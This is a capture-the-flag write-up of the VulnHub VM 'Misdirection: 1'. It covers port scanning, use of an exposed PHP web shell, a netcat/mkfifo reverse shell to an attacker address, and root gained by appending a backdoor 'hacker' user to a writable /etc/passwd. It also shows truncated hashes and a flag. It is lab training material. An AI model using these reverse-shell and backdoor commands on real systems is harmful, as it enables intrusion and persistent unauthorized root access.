

# [[VulnHub] Misdirection: 1](https://www.vulnhub.com/entry/misdirection-1,371/)

**Date**: 11/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable)  

## Overview
This is a writeup for VulnHub VM [`Misdirection: 1`](https://www.vulnhub.com/entry/misdirection-1,371/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Oct 11 12:13:32 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/xml/_quick_tcp_nmap.xml 192.168.92.187
Nmap scan report for 192.168.92.187
Host is up, received arp-response (0.00080s latency).
Scanned at 2019-10-11 12:13:33 PDT for 25s
Not shown: 996 closed ports
Reason: 996 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY=
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods:
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:F0:F4:AE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 12:13:58 2019 -- 1 IP address (1 host up) scanned in 26.69 seconds

```

2\. We start with `8080/tcp` service. There are some interesting hits from `gobuster` scan:  
``` {.python .numberLines}
http://192.168.92.187:8080/debug (Status: 301)
http://192.168.92.187:8080/shell (Status: 301)
http://192.168.92.187:8080/wordpress (Status: 301)

```

3\. Upon checking out the `/debug` url, we find that it has a PHP web shell called [p0wny-shell](https://github.com/flozz/p0wny-shell). This is a huge convenience as we can now spawn a reverse shell and get fully interactive access:  

  


### Findings
#### Open Ports:
``` {.python .numberLines}
22/tcp    |  ssh    |  OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    |  http   |  Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp  |  mysql  |  MySQL (unauthorized)
8080/tcp  |  http   |  Apache httpd 2.4.29 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
http://192.168.92.187:8080/debug
```
#### Users
``` {.python .numberLines}
ssh: root, brexit
```

\newpage
## Phase #2: Exploitation
1\. We use the web shell to spawn a Bash reverse shell and catch it using a local `netcat` listener:  
``` {.python .numberLines}
nc -nlvp 443
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.92.183 443 >/tmp/f

```

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@misdirection> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection>  
www-data@misdirection> uname
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@misdirection>  
www-data@misdirection> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.187  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fef0:f4ae  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f0:f4:ae  txqueuelen 1000  (Ethernet)
        RX packets 847916  bytes 329992802 (329.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 624984  bytes 125640093 (125.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@misdirection>  
www-data@misdirection> users
root
brexit
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `brexit` can run `bash` with `sudo` privileges. We also find that the `/etc/passwd` file has write permissions for group `brexit`. Combining these two, we need to first switch to user `brexit` and then modify the `/etc/passwd` file to add a new entry for a backdoor `root` user:  
``` {.python .numberLines}
sudo -l
  User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
ls -la /etc/passwd
  -rwxrwxr-- 1 root brexit 1617 Jun  1 01:17 /etc/passwd
sudo -u brexit bash
mkpasswd -m sha-512 password saltsalt
  $6$saltsalt$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/
echo -e "hacker:\$6\$saltsalt\$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/:0:0:hacker:/root:/bin/bash" >>/etc/passwd
su hacker

```

  

  

  

  

  

  

  

2\. We can view the file `/root/root.txt` to get the flag and complete the challenge:  
``` {.python .numberLines}
cat /root/root.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$PnbVvEMS$OcseJT8lZRrgrW1JBpHJ252SPRxS6Rkh3oVBkrbRBZgHBD1wArL6FcyO5daqaon7waFKwSqbg5fIjFgzU........................
brexit:$6$51s7qYVw$XbTfXEV2acHRp9vmA7VTxO35OLK9EGZJzDGF9nYaukD3eppHsn2P1ESMr.9rRn/YYO70uiUskfkWP0LyR........................
```
### Flags
``` {.python .numberLines}
0d2c6222bfdd3701e0fa12a9a.......
```

## References
[+] <https://www.vulnhub.com/entry/misdirection-1,371/>  
[+] <https://download.vulnhub.com/media/misdirection/Misdirection-Walkthrough.pdf>  
